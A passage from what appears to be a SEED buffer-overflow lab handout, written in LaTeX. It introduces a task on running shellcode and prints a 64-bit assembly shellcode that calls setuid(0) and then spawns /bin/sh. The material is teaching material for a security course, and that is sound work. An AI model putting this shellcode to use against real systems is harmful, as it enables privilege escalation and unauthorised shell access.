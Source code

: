 \noindent
{}


\paragraph{Readings and videos.}
Detailed coverage of the buffer-overflow attack can be found in the following:

\begin{itemize}
\item Chapter 4 of the SEED Book, \seedbook
\item Section 4 of the SEED Lecture at Udemy, \seedcsvideo
\end{itemize}


\paragraph{Lab environment.} \seedenvironmentB


\newpage


\section{Task 1: Running Shellcode}


Before starting the attack, let us get familiar with the shellcode. A shellcode is the code to
launch a shell. It has to be loaded into the memory so that we can force the
vulnerable program to jump to it. 
The shellcode is typically written using assembly languages.  
We provide a sample 64-bit shellcode in the following. 
There is a separate lab called Shellcode lab, which
focuses on writing shellcode.  


\begin{lstlisting}
 0:  48 31 c0             	xor    rax,rax
 3:  48 31 ff             	xor    rdi,rdi
 6:  b0 69                	mov    al,0x69
 8:  0f 05                	syscall
 a:  48 31 d2             	xor    rdx,rdx
 d:  52                   	push   rdx
 e:  48 b8 2f 62 69 6e 2f 	movabs rax,0x68732f2f6e69622f
15:  2f 73 68
18:  50                   	push   rax
19:  48 89 e7             	mov    rdi,rsp
1c:  52                   	push   rdx
1d:  57                   	push   rdi
1e:  48 89 e6             	mov    rsi,rsp
21:  48 31 c0             	xor    rax,rax
24:  b0 3b                	mov    al,0x3b
26:  0f 05                	syscall
\end{lstlisting}


